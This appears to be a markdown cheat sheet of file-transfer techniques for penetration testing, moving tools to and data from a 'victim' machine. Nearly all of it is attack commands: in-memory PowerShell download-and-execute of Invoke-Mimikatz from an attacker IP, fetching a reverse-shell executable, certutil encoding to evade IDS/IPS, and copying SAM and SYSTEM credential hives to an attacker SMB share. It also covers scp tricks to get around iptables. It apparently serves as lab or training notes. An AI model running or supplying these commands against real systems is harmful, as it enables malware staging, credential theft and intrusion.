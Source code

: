 # File-Transfert-Methods

# Windows Methods

#### Powershell - Download in memory
```
IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.194:8000/Invoke-Mimikatz.ps1')
```

#### Powershell - Download in folder
Detected by Antivirus and SIEM tools such as Varonis
```
IEX (New-Object Net.WebClient).DownloadFile("http://192.168.119.194:8000/mimikatz.exe","C:\temp\mimikatz.exe")
```

***Important Note :*** In case of cmd shell and not powershell prompt, you can execute powershell command using "powershell -c 'COMMAND'". As exemple :
C:\Users\bill\Documents>powershell -c "(New-object System.Net.WebClient).DownloadFile('http://10.0.0.1:8000/myreverseshell.exe','C:\tmp\myreverseshell.exe')"

#### TFTP 
On the old Windows version sur as Windows XP, Windows 2000

On kali linux
(/tftp is a specific folder where the fille have to be put before to be uploaded on the victim. The uploaded file from the victim will be put here also)
```
atftpd --daemon --port 69 /tftp
```
On Windows
```
➤  Upload
tftp -i http://192.168.119.194:8000/ put filename
➤  Download 
tftp -i http://192.168.119.194:8000/ get filename
```

#### Curl
```
curl http://192.168.119.194:8000/mimikatz.exe --output mimikatz.exe
```

#### Certutil

Basic transfert
```
certutil.exe -urlcache -split -f http://192.168.119.194:8000/mimikatz.exe output.file
```
Encoded transfert - Basic IPS/IDS evasion
```
certutil.exe -encode mimikatz.exe mimikatz.txt
certutil.exe -urlcache -split -f "http://192.168.119.194:8000/mimikatz.txt" mimikatz.txt
certutil.exe -decode mimikatz.txt mimikatz.exe
```

#### Copy
Upload a file from the Windows victim machine to the kali attacker machine.

```
#On the attacker kali machine, deploy a smb server
sudo python3 /opt/impacket/examples/smbserver.py kali .

#On the windows victime machine, upload the file
copy C:\Windows\Repair\SAM \\AttackerIP\kali\
copy C:\Windows\Repair\SYSTEM \\AttackerIP\kali\
```

**Note:** The files are stored in the folder where the shell execute the command not in the impacket folder or kali folder. As example, If you execute the command "sudo python3 /opt/impacket/examples/smbserver.py kali ." from the /home/kali/test/ folder, the files will be stored inside.


#### Evil-winrm
Upload a file from the Windows victim machine to the kali attacker machine.

```
*Evil-WinRM* PS C:\Users\victim\Desktop> download sam
Info: Downloading C:\Users\victim\Desktop\sam to sam                 
Info: Download successful!
```


# Linux Methods

#### Curl
```
curl http://192.168.119.194:8000/mimikatz.exe --output mimikatz.exe
```

#### Wget
```
wget -O mimikatz.exe http://192.168.119.194:8000/mimikatz.exe
```

#### Bypass IPtable using SCP through SSH
```
In the case of IPtable restrict the possibility to upload a file on the victim machine.
If you have a ssh connection using a id-rsa key, you could try the SCP tool to upload the file through the SSH connection.

➤ Prerequisite : Have a ssh connection (id-rsa)

➤ Error :
wget -O test.txt http://192.168.1.1:443/test.txt
--2022-03-13-- http://192.168.1.1:443:test.txt
Connecting to 192.168.1.1:443 ...

➤ Command :

• From the attacker machine, download something from the victim machine (using password)
# scp <file_to_download> <username>@<ip>:/<location> <where_to_upload>
root# scp myfile.txt user@10.0.0.1:/home/user
user@10.0.0.1's password:
OR for download a complete repository 
root# scp myfile.txt user@10.0.0.1:/home/user/* .

• From the the attacker machine, download something from the victim machine (using ssh key)
# scp -i <ssh_key>  <username>@<ip>:/<location>/<file> <where_to_upload>
scp -i sshkey.pem user@10.0.0.1:/home/user/test.txt /tmp/

• From the attacker machine, upload something on a the victim machine
root# scp -i ~/.ssh/id_rsa myfile.txt user@10.0.0.1

• From the victim machine, upload something on the attacker machine
scp myfile.txt root@10.0.0.1:/root/ .
```
